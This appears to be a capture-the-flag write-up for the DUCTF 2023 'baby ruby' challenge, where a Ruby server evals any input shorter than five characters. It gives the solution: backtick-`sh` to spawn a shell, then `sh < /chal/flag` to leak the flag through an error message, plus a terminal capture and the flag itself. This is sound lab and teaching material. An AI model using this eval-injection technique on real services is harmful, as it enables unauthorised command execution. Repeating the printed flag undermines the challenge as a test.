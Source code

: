 # baby ruby
> How well do you know your Ruby?

> The flag is at /chal/flag.

## About the Challenge
We got a server to connect and also the source code, here is the content of `ruby.rb`

```ruby
#!/usr/bin/env ruby

while input = STDIN.gets.chomp do eval input if input.size < 5 end
```

The length of the payload must < 5 and if the length of our input is under 5 characters, the code will execute our input

## How to Solve?
Because there is no filter in the code, we can spawn a shell by inputting

```
`sh`
```

And because of we can't use `cat` command. We can use this command to obtain the flag

```
sh < /chal/flag
```

So, when you run `sh < /chal/flag`, it instructs the sh shell to take the contents of the `/chal/flag` file and use it as input for shell commands


[Image extracted text: daffainfo@dapos:~$
nc
2023.ductf
dev 30028
sh
cat /chal/flag
sh
Ichal/flag
sh:
1:
DUCTF {how_to_pwn_ruby_in_four_easy_steps} :
not
found]


```
DUCTF{how_to_pwn_ruby_in_four_easy_steps}
```